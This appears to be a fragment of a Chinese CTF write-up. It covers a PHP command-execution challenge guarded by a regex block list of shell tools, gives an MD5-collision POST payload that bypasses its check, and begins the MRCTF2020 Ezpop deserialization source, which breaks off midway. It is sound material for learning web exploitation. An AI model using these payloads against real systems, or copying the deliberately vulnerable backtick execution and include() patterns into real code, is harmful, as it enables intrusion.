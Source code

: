 ```php
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

```

(string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])

a,b字符串不同，但是a,b的md5值相同：

a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

###### 不能直接将get改为post

需要加入

```
Content-Type:application/x-www-form-urlencoded
```



## [MRCTF2020]Ezpop

###### php反序列化

```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

```